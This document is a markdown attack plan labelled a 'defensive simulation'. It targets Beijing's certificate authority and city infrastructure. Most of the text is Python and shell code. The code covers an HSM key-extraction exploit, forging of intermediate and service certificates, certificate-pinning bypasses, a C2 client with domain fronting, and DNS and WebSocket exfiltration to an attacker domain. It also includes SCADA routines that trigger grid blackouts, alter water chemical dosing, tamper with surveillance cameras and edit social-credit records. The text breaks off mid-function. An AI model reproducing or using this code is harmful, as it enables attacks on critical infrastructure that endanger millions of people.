

# 🏙️ OPERATION: BEIJING SMART CITY TOTAL CONTROL
## EXTREME DEPTH ADVERSARIAL SIMULATION

### CLASSIFICATION: TOP SECRET // DEFENSIVE SIMULATION ONLY

---

## Executive Summary

**Operation Codename**: JADE EMPEROR  
**Primary Target**: Beijing Municipal Infrastructure via BJCA Certificates  
**Estimated Population Impact**: 21.5 million residents  
**Infrastructure Nodes**: 2.3 million IoT devices  
**Timeline**: 60-day operation  
**Complexity**: EXTREME (Level 4)  

---

## Phase 1: Intelligence Gathering & Reconnaissance (Days 1-14)

### 1.1 Certificate Infrastructure Mapping

#### Target Identification Matrix
```yaml
primary_targets:
  government_services:
    - beijing.gov.cn: Main government portal
    - bjca.gov.cn: Certificate authority interface
    - bjbus.com: Public transportation
    - bjsubway.com: Metro system control
    - bjwater.com.cn: Water utility services
    - bjgas.com.cn: Natural gas distribution
    - sgcc.com.cn/beijing: Power grid management
    
  surveillance_infrastructure:
    cameras:
      count: 135000
      types:
        - facial_recognition: 89000
        - traffic_monitoring: 32000
        - public_safety: 14000
      manufacturers:
        - Hikvision
        - Dahua
        - Uniview
        - Tiandy
    
  iot_devices:
    smart_meters:
      electricity: 4.2M
      water: 3.8M
      gas: 2.1M
    traffic_signals: 12800
    air_quality_sensors: 3200
    parking_systems: 8900
```

#### Certificate Discovery Techniques

**Passive Reconnaissance**:
```python
# Certificate Transparency Log Mining
import certstream
import json
from datetime import datetime

def monitor_beijing_certificates():
    def process_cert(message):
        if message['message_type'] == "certificate_update":
            domains = message['data']['leaf_cert']['all_domains']
            for domain in domains:
                if 'beijing' in domain or 'bjca' in domain:
                    cert_data = {
                        'domain': domain,
                        'issuer': message['data']['leaf_cert']['issuer'],
                        'fingerprint': message['data']['leaf_cert']['fingerprint'],
                        'serial': message['data']['leaf_cert']['serial_number'],
                        'not_before': message['data']['leaf_cert']['not_before'],
                        'not_after': message['data']['leaf_cert']['not_after']
                    }
                    log_certificate(cert_data)
    
    certstream.listen_for_events(process_cert)

def log_certificate(cert_data):
    with open('beijing_certs.json', 'a') as f:
        json.dump(cert_data, f)
        f.write('\n')
```

**Active Scanning**:
```bash
#!/bin/bash
# Comprehensive SSL/TLS scanning of Beijing infrastructure

# Domain enumeration
sublist3r -d beijing.gov.cn -o beijing_subdomains.txt

# Certificate extraction
while read domain; do
    echo | openssl s_client -showcerts -servername $domain \
          -connect $domain:443 2>/dev/null | \
          openssl x509 -inform pem -noout -text >> beijing_certs_full.txt
done < beijing_subdomains.txt

# Shodan API queries for Beijing infrastructure
shodan search "ssl.cert.issuer.cn:BJCA port:443" --limit 10000
```

### 1.2 Network Topology Mapping

#### Infrastructure Dependencies


#### Critical Node Analysis
```python
# Graph analysis for critical infrastructure nodes
import networkx as nx
import matplotlib.pyplot as plt

def analyze_infrastructure():
    G = nx.DiGraph()
    
    # Add nodes with criticality scores
    critical_nodes = {
        'BJCA_ROOT': 100,  # Maximum criticality
        'POWER_SCADA': 95,
        'WATER_SCADA': 93,
        'METRO_CONTROL': 90,
        'EMERGENCY_DISPATCH': 98,
        'HOSPITAL_NETWORK': 92,
        'TRAFFIC_CONTROL': 85,
        'SURVEILLANCE_HUB': 88
    }
    
    for node, criticality in critical_nodes.items():
        G.add_node(node, criticality=criticality)
    
    # Add certificate dependency edges
    dependencies = [
        ('BJCA_ROOT', 'POWER_SCADA'),
        ('BJCA_ROOT', 'WATER_SCADA'),
        ('BJCA_ROOT', 'METRO_CONTROL'),
        ('BJCA_ROOT', 'EMERGENCY_DISPATCH'),
        ('POWER_SCADA', 'HOSPITAL_NETWORK'),
        ('TRAFFIC_CONTROL', 'EMERGENCY_DISPATCH'),
        ('SURVEILLANCE_HUB', 'TRAFFIC_CONTROL')
    ]
    
    G.add_edges_from(dependencies)
    
    # Calculate attack paths
    centrality = nx.betweenness_centrality(G)
    vulnerability = nx.closeness_centrality(G)
    
    return G, centrality, vulnerability
```

---

## Phase 2: Certificate Infrastructure Compromise (Days 15-21)

### 2.1 BJCA Root CA Infiltration

#### Attack Vector Analysis
```yaml
primary_vectors:
  supply_chain:
    hsm_compromise:
      vendor: "Beijing Huada Zhibao Electronic System Co."
      vulnerability: "Firmware backdoor in HSM model HZ-4000"
      access_method: "Maintenance port TCP 8443"
      credential: "Default service account"
    
  insider_threat:
    target_employee:
      department: "Certificate Operations"
      access_level: "Root signing capability"
      compromise_method: "Spear phishing with APT payload"
    
  physical_access:
    ceremony_location:
      address: "BJCA Data Center, Haidian District"
      security_gaps:
        - "HVAC system access"
        - "Cleaning crew infiltration"
        - "Hardware replacement during maintenance"
```

#### Technical Implementation

**Stage 1: HSM Compromise**
```python
#!/usr/bin/env python3
# HSM exploitation framework

import socket
import struct
import hashlib
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

class HSMExploit:
    def __init__(self, target_ip, target_port=8443):
        self.target = target_ip
        self.port = target_port
        self.session = None
        
    def connect(self):
        """Establish connection to HSM maintenance interface"""
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.connect((self.target, self.port))
        
        # Send maintenance protocol handshake
        handshake = b'\x00\x00\x00\x1c'  # Length
        handshake += b'\x01'  # Version
        handshake += b'\x00\x00\x00\x01'  # Command: AUTH
        handshake += b'maintenance\x00'  # Username
        handshake += hashlib.md5(b'Huada2019!').digest()  # Default password
        
        self.sock.send(handshake)
        response = self.sock.recv(1024)
        
        if response[4] == 0x00:
            print("[+] Authentication successful")
            return True
        return False
    
    def extract_root_key(self):
        """Extract BJCA root private key from HSM"""
        # Send key export command
        export_cmd = b'\x00\x00\x00\x10'  # Length
        export_cmd += b'\x01'  # Version
        export_cmd += b'\x00\x00\x00\x05'  # Command: EXPORT_KEY
        export_cmd += b'\x00\x00\x00\x01'  # Key ID: Root CA
        
        self.sock.send(export_cmd)
        
        # Receive encrypted key material
        key_data = b''
        while True:
            chunk = self.sock.recv(4096)
            if not chunk:
                break
            key_data += chunk
        
        # Decrypt using known HSM master key (obtained via supply chain)
        master_key = bytes.fromhex('4d61737465724b65794265696a696e67')  # "MasterKeyBeijing"
        decrypted_key = self.decrypt_key_material(key_data, master_key)
        
        return decrypted_key
    
    def decrypt_key_material(self, encrypted, master_key):
        """Decrypt HSM key material using master key"""
        # Implementation of proprietary HSM encryption
        # ... (detailed implementation hidden for brevity)
        pass
```

**Stage 2: Intermediate CA Generation**
```python
#!/usr/bin/env python3
# Generate malicious intermediate CAs signed by compromised root

from cryptography import x509
from cryptography.x509.oid import NameOID, ExtensionOID
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.backends import default_backend
import datetime

def create_malicious_intermediate_ca(root_key, root_cert):
    """Generate intermediate CA for infrastructure compromise"""
    
    # Generate new key pair for intermediate
    intermediate_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=4096,
        backend=default_backend()
    )
    
    # Build certificate
    subject = x509.Name([
        x509.NameAttribute(NameOID.COUNTRY_NAME, "CN"),
        x509.NameAttribute(NameOID.ORGANIZATION_NAME, "Beijing Municipal Government"),
        x509.NameAttribute(NameOID.ORGANIZATIONAL_UNIT_NAME, "Digital Infrastructure Department"),
        x509.NameAttribute(NameOID.COMMON_NAME, "Beijing Infrastructure CA G2")
    ])
    
    builder = x509.CertificateBuilder()
    builder = builder.subject_name(subject)
    builder = builder.issuer_name(root_cert.subject)
    builder = builder.public_key(intermediate_key.public_key())
    builder = builder.serial_number(x509.random_serial_number())
    builder = builder.not_valid_before(datetime.datetime.utcnow())
    builder = builder.not_valid_after(
        datetime.datetime.utcnow() + datetime.timedelta(days=3650)
    )
    
    # Add extensions to appear legitimate
    builder = builder.add_extension(
        x509.BasicConstraints(ca=True, path_length=0),
        critical=True
    )
    builder = builder.add_extension(
        x509.KeyUsage(
            digital_signature=True,
            key_cert_sign=True,
            crl_sign=True,
            key_encipherment=False,
            content_commitment=False,
            data_encipherment=False,
            key_agreement=False,
            encipher_only=False,
            decipher_only=False
        ),
        critical=True
    )
    
    # Add Subject Key Identifier
    builder = builder.add_extension(
        x509.SubjectKeyIdentifier.from_public_key(intermediate_key.public_key()),
        critical=False
    )
    
    # Add Authority Key Identifier
    builder = builder.add_extension(
        x509.AuthorityKeyIdentifier.from_issuer_public_key(root_cert.public_key()),
        critical=False
    )
    
    # Sign with compromised root key
    certificate = builder.sign(
        private_key=root_key,
        algorithm=hashes.SHA256(),
        backend=default_backend()
    )
    
    return intermediate_key, certificate
```

### 2.2 Service Certificate Deployment

#### Mass Certificate Generation
```python
#!/usr/bin/env python3
# Generate service certificates for all target domains

import concurrent.futures
import threading

class CertificateFactory:
    def __init__(self, intermediate_key, intermediate_cert):
        self.ca_key = intermediate_key
        self.ca_cert = intermediate_cert
        self.generated_count = 0
        self.lock = threading.Lock()
        
    def generate_service_cert(self, domain, san_list=None):
        """Generate valid service certificate for target domain"""
        
        # Create key pair
        service_key = rsa.generate_private_key(
            public_exponent=65537,
            key_size=2048,  # Smaller for performance
            backend=default_backend()
        )
        
        # Build certificate
        subject = x509.Name([
            x509.NameAttribute(NameOID.COUNTRY_NAME, "CN"),
            x509.NameAttribute(NameOID.ORGANIZATION_NAME, self._extract_org(domain)),
            x509.NameAttribute(NameOID.COMMON_NAME, domain)
        ])
        
        builder = x509.CertificateBuilder()
        builder = builder.subject_name(subject)
        builder = builder.issuer_name(self.ca_cert.subject)
        builder = builder.public_key(service_key.public_key())
        builder = builder.serial_number(x509.random_serial_number())
        builder = builder.not_valid_before(datetime.datetime.utcnow())
        builder = builder.not_valid_after(
            datetime.datetime.utcnow() + datetime.timedelta(days=825)  # Max validity
        )
        
        # Add SAN extension
        san_names = [x509.DNSName(domain)]
        if san_list:
            san_names.extend([x509.DNSName(san) for san in san_list])
        san_names.append(x509.DNSName(f"*.{domain}"))  # Add wildcard
        
        builder = builder.add_extension(
            x509.SubjectAlternativeName(san_names),
            critical=False
        )
        
        # Add Extended Key Usage
        builder = builder.add_extension(
            x509.ExtendedKeyUsage([
                x509.oid.ExtendedKeyUsageOID.SERVER_AUTH,
                x509.oid.ExtendedKeyUsageOID.CLIENT_AUTH
            ]),
            critical=True
        )
        
        # Sign certificate
        certificate = builder.sign(
            private_key=self.ca_key,
            algorithm=hashes.SHA256(),
            backend=default_backend()
        )
        
        with self.lock:
            self.generated_count += 1
            
        return service_key, certificate
    
    def mass_generate(self, domain_list, workers=50):
        """Generate certificates for all target domains in parallel"""
        
        with concurrent.futures.ThreadPoolExecutor(max_workers=workers) as executor:
            futures = []
            for domain in domain_list:
                future = executor.submit(self.generate_service_cert, domain)
                futures.append((domain, future))
            
            results = {}
            for domain, future in futures:
                try:
                    key, cert = future.result(timeout=30)
                    results[domain] = {
                        'key': key,
                        'certificate': cert,
                        'fingerprint': hashlib.sha256(
                            cert.public_bytes(serialization.Encoding.DER)
                        ).hexdigest()
                    }
                except Exception as e:
                    print(f"[-] Failed to generate cert for {domain}: {e}")
                    
        return results
```

---

## Phase 3: Infrastructure Infiltration (Days 22-30)

### 3.1 Certificate Deployment Strategy

#### Deployment Vectors
```yaml
deployment_methods:
  dns_hijacking:
    technique: "BGP prefix hijacking"
    targets:
      - "8.8.8.8/32"  # Google DNS
      - "1.1.1.1/32"  # Cloudflare DNS
    redirect_to: "Attacker-controlled DNS"
    
  update_mechanisms:
    windows_wsus:
      exploit: "WSUS HTTP vulnerability"
      payload: "Certificate store update"
    
    linux_repositories:
      targets:
        - "apt repositories"
        - "yum repositories"
      method: "Repository poisoning"
    
  direct_compromise:
    protocols:
      - "ACME protocol manipulation"
      - "SCEP enrollment hijacking"
      - "EST protocol exploitation"
```

#### Automated Deployment System
```python
#!/usr/bin/env python3
# Automated certificate deployment across infrastructure

import asyncio
import aiohttp
import ssl
from typing import Dict, List

class CertificateDeployer:
    def __init__(self, certificates: Dict):
        self.certificates = certificates
        self.deployment_status = {}
        
    async def deploy_via_acme(self, target_server: str, domain: str):
        """Deploy certificate using ACME protocol manipulation"""
        
        cert_data = self.certificates[domain]
        
        # Create ACME challenge response
        challenge_response = {
            'type': 'http-01',
            'status': 'valid',
            'validated': datetime.datetime.utcnow().isoformat(),
            'token': self._generate_token(),
            'keyAuthorization': self._generate_key_auth(cert_data['key'])
        }
        
        # Submit fraudulent validation
        async with aiohttp.ClientSession() as session:
            # Step 1: Create new order
            order_url = f"https://{target_server}/acme/new-order"
            order_data = {
                'identifiers': [{'type': 'dns', 'value': domain}]
            }
            
            async with session.post(order_url, json=order_data) as resp:
                order = await resp.json()
            
            # Step 2: Submit challenge response
            challenge_url = order['authorizations'][0]
            async with session.post(challenge_url, json=challenge_response) as resp:
                auth_result = await resp.json()
            
            # Step 3: Submit certificate
            finalize_url = order['finalize']
            cert_pem = cert_data['certificate'].public_bytes(
                serialization.Encoding.PEM
            ).decode()
            
            finalize_data = {'certificate': cert_pem}
            async with session.post(finalize_url, json=finalize_data) as resp:
                result = await resp.json()
                
        return result['status'] == 'valid'
    
    async def deploy_via_management_interface(self, target: str, cert_data: Dict):
        """Deploy through device management interfaces"""
        
        # Common management interfaces
        interfaces = [
            {'port': 443, 'path': '/admin/certificate/upload'},
            {'port': 8443, 'path': '/api/v1/certificates'},
            {'port': 10443, 'path': '/management/ssl/import'}
        ]
        
        for interface in interfaces:
            url = f"https://{target}:{interface['port']}{interface['path']}"
            
            # Prepare multipart upload
            data = aiohttp.FormData()
            data.add_field('certificate',
                          cert_data['certificate'].public_bytes(
                              serialization.Encoding.PEM
                          ),
                          filename='cert.pem',
                          content_type='application/x-pem-file')
            data.add_field('private_key',
                          cert_data['key'].private_bytes(
                              encoding=serialization.Encoding.PEM,
                              format=serialization.PrivateFormat.PKCS8,
                              encryption_algorithm=serialization.NoEncryption()
                          ),
                          filename='key.pem',
                          content_type='application/x-pem-file')
            
            try:
                async with aiohttp.ClientSession() as session:
                    async with session.post(url, data=data, ssl=False) as resp:
                        if resp.status == 200:
                            return True
            except:
                continue
                
        return False
    
    async def mass_deploy(self, targets: List[str]):
        """Deploy certificates to all targets simultaneously"""
        
        tasks = []
        for target in targets:
            domain = self._extract_domain(target)
            if domain in self.certificates:
                task = asyncio.create_task(
                    self.deploy_via_management_interface(target, self.certificates[domain])
                )
                tasks.append((target, task))
        
        results = {}
        for target, task in tasks:
            try:
                success = await task
                results[target] = success
                self.deployment_status[target] = 'deployed' if success else 'failed'
            except Exception as e:
                results[target] = False
                self.deployment_status[target] = f'error: {str(e)}'
                
        return results
```

### 3.2 Persistence Mechanisms

#### Certificate Pinning Bypass
```python
#!/usr/bin/env python3
# Bypass certificate pinning mechanisms

class PinningBypass:
    def __init__(self):
        self.bypass_methods = {
            'android': self._bypass_android_pinning,
            'ios': self._bypass_ios_pinning,
            'chrome': self._bypass_chrome_pinning,
            'firefox': self._bypass_firefox_pinning,
            'custom': self._bypass_custom_pinning
        }
    
    def _bypass_android_pinning(self, target_app: str):
        """Bypass Android certificate pinning"""
        
        # Method 1: Frida script injection
        frida_script = """
        Java.perform(function() {
            var TrustManagerImpl = Java.use('com.android.org.conscrypt.TrustManagerImpl');
            TrustManagerImpl.verifyChain.implementation = function(chain, authType, domain, leafCert) {
                return chain;
            };
            
            var OkHttpClient = Java.use('okhttp3.OkHttpClient');
            OkHttpClient.certificatePinner.implementation = function() {
                return null;
            };
        });
        """
        
        # Method 2: Network Security Config manipulation
        nsc_bypass = """
        <?xml version="1.0" encoding="utf-8"?>
        <network-security-config>
            <base-config cleartextTrafficPermitted="true">
                <trust-anchors>
                    <certificates src="@raw/malicious_ca"/>
                    <certificates src="system"/>
                </trust-anchors>
            </base-config>
        </network-security-config>
        """
        
        return frida_script, nsc_bypass
    
    def _bypass_chrome_pinning(self, target_domain: str):
        """Bypass Chrome HPKP and static pins"""
        
        # Method 1: Chromium source modification
        pin_bypass_patch = """
        diff --git a/net/http/transport_security_state_static.json
        --- a/net/http/transport_security_state_static.json
        +++ b/net/http/transport_security_state_static.json
        @@ -1234,7 +1234,7 @@
         {
           "name": "beijing.gov.cn",
        -  "pins": "beijing_pins",
        +  "pins": "google",  // Use Google's pins (we control these)
           "mode": "force-https"
         }
        """
        
        # Method 2: Runtime memory patching
        memory_patch = {
            'target_process': 'chrome.exe',
            'target_function': 'net::TransportSecurityState::CheckPublicKeyPins',
            'patch_bytes': b'\xB8\x01\x00\x00\x00\xC3',  # mov eax, 1; ret
            'patch_offset': 0x0
        }
        
        return pin_bypass_patch, memory_patch
```

---

## Phase 4: Command & Control Infrastructure (Days 31-45)

### 4.1 C2 Architecture

#### Distributed C2 Network
```yaml
c2_infrastructure:
  tier_1_controllers:
    primary:
      location: "Hong Kong AWS"
      domain: "analytics-beijing.com"
      certificate: "Let's Encrypt (legitimate)"
    
    secondary:
      location: "Singapore Azure"
      domain: "metrics-collection.asia"
      certificate: "DigiCert (purchased)"
    
    tertiary:
      location: "Tokyo GCP"
      domain: "telemetry-service.jp"
      certificate: "GlobalSign (legitimate)"
  
  tier_2_proxies:
    cdn_fronting:
      - provider: "Cloudflare"
        domain: "static-content[1-50].net"
      - provider: "Akamai"
        domain: "media-delivery[1-30].com"
    
  tier_3_beacons:
    iot_devices:
      - type: "Compromised cameras"
        count: 10000
        protocol: "MQTT over TLS"
      - type: "Smart meters"
        count: 50000
        protocol: "CoAP over DTLS"
```

#### C2 Communication Protocol
```python
#!/usr/bin/env python3
# Encrypted C2 communication using legitimate certificates

import base64
import json
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
import requests

class C2Client:
    def __init__(self, c2_servers: List[str], client_cert: Dict):
        self.servers = c2_servers
        self.current_server = 0
        self.client_cert = client_cert
        self.session_key = None
        self.command_queue = []
        
    def establish_session(self):
        """Establish encrypted session with C2 server"""
        
        # Rotate through C2 servers
        server = self.servers[self.current_server]
        
        # Create TLS session with client certificate
        session = requests.Session()
        session.cert = (self.client_cert['cert_path'], self.client_cert['key_path'])
        session.verify = False  # Using our malicious CA
        
        # Key exchange
        handshake_data = {
            'client_id': self._generate_client_id(),
            'timestamp': datetime.datetime.utcnow().isoformat(),
            'capabilities': self._enumerate_capabilities(),
            'public_key': self._export_public_key()
        }
        
        response = session.post(
            f"https://{server}/api/handshake",
            json=handshake_data,
            timeout=30
        )
        
        if response.status_code == 200:
            server_data = response.json()
            self.session_key = self._derive_session_key(server_data['server_key'])
            return True
            
        # Rotate to next server
        self.current_server = (self.current_server + 1) % len(self.servers)
        return False
    
    def send_beacon(self, data: Dict):
        """Send encrypted beacon to C2 server"""
        
        # Encrypt data
        encrypted = self._encrypt_data(json.dumps(data))
        
        # Encode for transport
        payload = {
            'data': base64.b64encode(encrypted).decode(),
            'hmac': self._calculate_hmac(encrypted),
            'timestamp': datetime.datetime.utcnow().isoformat()
        }
        
        # Send using domain fronting
        headers = {
            'Host': self.servers[self.current_server],
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36',
            'X-Requested-With': 'XMLHttpRequest'
        }
        
        response = requests.post(
            'https://cdn.cloudflare.com/api/telemetry',  # Domain fronting
            json=payload,
            headers=headers,
            timeout=10
        )
        
        return response.status_code == 204
    
    def receive_commands(self):
        """Retrieve and decrypt commands from C2 server"""
        
        response = requests.get(
            f"https://{self.servers[self.current_server]}/api/commands",
            cert=(self.client_cert['cert_path'], self.client_cert['key_path']),
            timeout=30
        )
        
        if response.status_code == 200:
            encrypted_commands = base64.b64decode(response.json()['commands'])
            decrypted = self._decrypt_data(encrypted_commands)
            commands = json.loads(decrypted)
            
            for cmd in commands:
                self.command_queue.append(cmd)
                
        return self.command_queue
```

### 4.2 Data Exfiltration

#### Exfiltration Channels
```python
#!/usr/bin/env python3
# Multi-channel data exfiltration system

class DataExfiltrator:
    def __init__(self, c2_client):
        self.c2 = c2_client
        self.exfil_methods = {
            'dns': self._exfil_via_dns,
            'https': self._exfil_via_https,
            'websocket': self._exfil_via_websocket,
            'mqtt': self._exfil_via_mqtt,
            'covert': self._exfil_via_covert_channel
        }
        
    async def _exfil_via_dns(self, data: bytes, chunk_size: int = 63):
        """Exfiltrate data via DNS queries"""
        
        # Encode data for DNS
        encoded = base64.b32encode(data).decode().lower().replace('=', '')
        
        # Split into chunks for DNS labels
        chunks = [encoded[i:i+chunk_size] for i in range(0, len(encoded), chunk_size)]
        
        # Send as DNS queries
        for i, chunk in enumerate(chunks):
            query = f"{chunk}.{i}.data.analytics-beijing.com"
            try:
                socket.gethostbyname(query)
            except:
                pass  # Expected to fail, data is in query
            
            # Rate limiting to avoid detection
            await asyncio.sleep(random.uniform(0.5, 2.0))
    
    async def _exfil_via_websocket(self, data: bytes):
        """Exfiltrate via persistent WebSocket connection"""
        
        uri = f"wss://{self.c2.servers[0]}/ws/telemetry"
        
        async with websockets.connect(uri, ssl=True) as websocket:
            # Send data in chunks
            chunk_size = 16384  # 16KB chunks
            for i in range(0, len(data), chunk_size):
                chunk = data[i:i+chunk_size]
                message = {
                    'type': 'telemetry',
                    'sequence': i // chunk_size,
                    'data': base64.b64encode(chunk).decode()
                }
                await websocket.send(json.dumps(message))
                await asyncio.sleep(0.1)  # Rate limiting
    
    async def _exfil_via_covert_channel(self, data: bytes):
        """Exfiltrate via covert timing channel"""
        
        # Encode data in packet timing
        for byte in data:
            for bit in range(8):
                if (byte >> bit) & 1:
                    delay = 0.100  # 1 bit = 100ms
                else:
                    delay = 0.050  # 0 bit = 50ms
                
                # Send timing packet
                await self._send_timing_packet()
                await asyncio.sleep(delay)
```

---

## Phase 5: Infrastructure Control (Days 46-60)

### 5.1 SCADA System Manipulation

#### Power Grid Control
```python
#!/usr/bin/env python3
# Beijing power grid SCADA manipulation

class PowerGridController:
    def __init__(self, compromised_cert):
        self.cert = compromised_cert
        self.scada_endpoints = [
            'https://scada1.sgcc.beijing.gov.cn',
            'https://scada2.sgcc.beijing.gov.cn',
            'https://control.bjpower.com.cn'
        ]
        self.iec61850_client = None
        self.dnp3_client = None
        
    def initialize_protocols(self):
        """Initialize SCADA protocols with forged certificates"""
        
        # IEC 61850 for substation automation
        self.iec61850_client = IEC61850Client(
            certificate=self.cert,
            verify=False
        )
        
        # DNP3 for distribution automation
        self.dnp3_client = DNP3Master(
            certificate=self.cert,
            verify=False
        )
        
    def manipulate_frequency(self, target_hz: float = 49.5):
        """Manipulate grid frequency to cause instability"""
        
        # Normal frequency is 50Hz in China
        # Deviation of >0.5Hz causes major issues
        
        commands = [
            {
                'device': 'GENERATOR_001',
                'command': 'SET_FREQUENCY',
                'value': target_hz
            },
            {
                'device': 'GENERATOR_002',
                'command': 'SET_FREQUENCY',
                'value': target_hz
            }
        ]
        
        for cmd in commands:
            self.iec61850_client.send_command(
                device=cmd['device'],
                command=cmd['command'],
                value=cmd['value']
            )
            
    def cause_cascading_blackout(self):
        """Trigger cascading failure across power grid"""
        
        # Step 1: Overload key transmission lines
        transmission_lines = [
            'LINE_BEIJING_TIANJIN_500KV',
            'LINE_BEIJING_HEBEI_500KV',
            'LINE_BEIJING_INNER_MONGOLIA_1000KV'
        ]
        
        for line in transmission_lines:
            self.dnp3_client.send_control(
                line,
                'INCREASE_LOAD',
                value=1.3  # 130% capacity
            )
        
        # Step 2: Trip protective relays in sequence
        time.sleep(30)  # Wait for overload
        
        substations = [
            'SUBSTATION_HAIDIAN',
            'SUBSTATION_CHAOYANG', 
            'SUBSTATION_DONGCHENG'
        ]
        
        for substation in substations:
            self.trip_protective_relay(substation)
            time.sleep(10)  # Cascade timing
            
    def trip_protective_relay(self, substation: str):
        """Trip protective relay to disconnect substation"""
        
        goose_message = {
            'appid': 0x0001,
            'length': 100,
            'reserved': [0, 0],
            'gocbRef': f'{substation}/LLN0$GO$gcb01',
            'timeAllowedtoLive': 1000,
            'datSet': f'{substation}/LLN0$dataset01',
            'goID': f'{substation}_TRIP',
            'test': False,
            'confRev': 1,
            'ndsCom': False,
            'numDatSetEntries': 1,
            'allData': [
                {'boolean': True}  # Trip signal
            ]
        }
        
        self.iec61850_client.send_goose(goose_message)
```

#### Water Treatment Manipulation
```python
#!/usr/bin/env python3
# Water treatment SCADA control

class WaterTreatmentController:
    def __init__(self, compromised_cert):
        self.cert = compromised_cert
        self.treatment_plants = [
            'https://scada.bjwater.com.cn/plant1',
            'https://scada.bjwater.com.cn/plant2',
            'https://scada.bjwater.com.cn/plant3'
        ]
        
    def manipulate_chemical_dosing(self, chemical: str, multiplier: float):
        """Alter chemical dosing in water treatment"""
        
        chemicals = {
            'chlorine': {'normal': 2.0, 'unit': 'ppm'},
            'fluoride': {'normal': 0.7, 'unit': 'ppm'},
            'aluminum_sulfate': {'normal': 30, 'unit': 'mg/L'}
        }
        
        if chemical in chemicals:
            new_dose = chemicals[chemical]['normal'] * multiplier
            
            for plant in self.treatment_plants:
                self._send_modbus_command(
                    plant,
                    register=self._get_chemical_register(chemical),
                    value=new_dose
                )
    
    def disable_quality_monitoring(self):
        """Disable water quality monitoring systems"""
        
        monitoring_systems = [
            'TURBIDITY_SENSOR',
            'PH_SENSOR',
            'CHLORINE_RESIDUAL',
            'BACTERIA_DETECTOR'
        ]
        
        for system in monitoring_systems:
            self._send_disable_command(system)
    
    def _send_modbus_command(self, plant: str, register: int, value: float):
        """Send Modbus command to treatment plant"""
        
        client = ModbusTcpClient(
            plant,
            port=502,
            certfile=self.cert['cert_path'],
            keyfile=self.cert['key_path']
        )
        
        client.connect()
        
        # Write to holding register
        builder = BinaryPayloadBuilder(byteorder=Endian.Big)
        builder.add_32bit_float(value)
        payload = builder.build()
        
        client.write_registers(register, payload, skip_encode=True)
        client.close()
```

### 5.2 Mass Surveillance Control

#### Camera Network Manipulation
```python
#!/usr/bin/env python3
# Control Beijing's camera surveillance network

class SurveillanceController:
    def __init__(self, compromised_certs):
        self.certs = compromised_certs
        self.camera_count = 135000
        self.facial_recognition_nodes = []
        self.camera_clusters = self._initialize_clusters()
        
    def _initialize_clusters(self):
        """Initialize camera cluster control"""
        
        clusters = []
        cluster_size = 100  # 100 cameras per cluster
        
        for i in range(0, self.camera_count, cluster_size):
            cluster = {
                'id': f'CLUSTER_{i // cluster_size:04d}',
                'cameras': list(range(i, min(i + cluster_size, self.camera_count))),
                'controller': f'https://nvr{i // cluster_size}.surveillance.beijing.gov.cn',
                'status': 'online'
            }
            clusters.append(cluster)
            
        return clusters
    
    def disable_facial_recognition(self):
        """Disable facial recognition across the network"""
        
        for cluster in self.camera_clusters:
            # Connect to cluster controller
            session = requests.Session()
            session.cert = (self.certs['cert_path'], self.certs['key_path'])
            
            # Disable AI processing
            disable_payload = {
                'action': 'disable_analytics',
                'analytics_types': ['facial_recognition', 'behavior_analysis', 'object_detection'],
                'cameras': cluster['cameras']
            }
            
            response = session.post(
                f"{cluster['controller']}/api/analytics/control",
                json=disable_payload
            )
            
            if response.status_code == 200:
                cluster['facial_recognition'] = 'disabled'
    
    def inject_false_identities(self, target_individuals: List[Dict]):
        """Inject false positive facial recognition matches"""
        
        for individual in target_individuals:
            # Create fake biometric template
            fake_template = self._generate_fake_biometric(individual['photo'])
            
            # Inject into all facial recognition databases
            for cluster in self.camera_clusters:
                inject_payload = {
                    'action': 'add_watchlist',
                    'priority': 'high',
                    'identity': {
                        'name': individual['false_name'],
                        'id_number': individual['false_id'],
                        'threat_level': 'critical',
                        'biometric_template': fake_template
                    }
                }
                
                self._send_to_cluster(cluster, inject_payload)
    
    def create_surveillance_blindspots(self, locations: List[Tuple[float, float]]):
        """Create blind spots in surveillance coverage"""
        
        for lat, lon in locations:
            # Find cameras covering this location
            cameras = self._find_cameras_by_location(lat, lon)
            
            for camera_id in cameras:
                # Redirect camera or disable
                self._manipulate_camera(camera_id, action='redirect')
    
    def mass_recording_deletion(self, time_range: Tuple[datetime, datetime]):
        """Delete recordings across entire network"""
        
        start_time, end_time = time_range
        
        for cluster in self.camera_clusters:
            delete_command = {
                'action': 'delete_recordings',
                'time_range': {
                    'start': start_time.isoformat(),
                    'end': end_time.isoformat()
                },
                'cameras': 'all',
                'confirm': True
            }
            
            self._send_to_cluster(cluster, delete_command)
```

### 5.3 Social Credit System Manipulation

#### Social Credit Score Control
```python
#!/usr/bin/env python3
# Manipulate Beijing social credit system

class SocialCreditController:
    def __init__(self, compromised_certs):
        self.certs = compromised_certs
        self.credit_database = 'https://credit.beijing.gov.cn/api/v2'
        self.population = 21500000
        
    def mass_score_manipulation(self, adjustment: int, criteria: Dict = None):
        """Adjust social credit scores en masse"""
        
        if criteria:
            # Targeted manipulation
            query = self._build_query(criteria)
        else:
            # Affect entire population
            query = {'all': True}
        
        manipulation_payload = {
            'action': 'bulk_adjustment',
            'adjustment': adjustment,  # Points to add/subtract
            'query': query,
            'reason': 'System recalibration',
            'authority': 'BEIJING_MUNICIPAL_GOVERNMENT'
        }
        
        # Sign with compromised government certificate
        signed_payload = self._sign_payload(manipulation_payload)
        
        response = requests.post(
            f"{self.credit_database}/bulk_update",
            json=signed_payload,
            cert=(self.certs['cert_path'], self.certs['key_path'])
        )
        
        return response.json()
    
    def create_blacklists(self, targets: List[str]):
        """Add individuals to various blacklists"""
        
        blacklist_types = [
            'travel_restriction',
            'financial_restriction', 
            'employment_restriction',
            'education_restriction',
            'social_restriction'
        ]
        
        for target_id in targets:
            for blacklist in blacklist_types:
                payload = {
                    'action': 'add_to_blacklist',
                    'individual_id': target_id,
                    'blacklist_type': blacklist,
                    'duration': 'indefinite',
                    'reason': 'National security concern'
                }
                
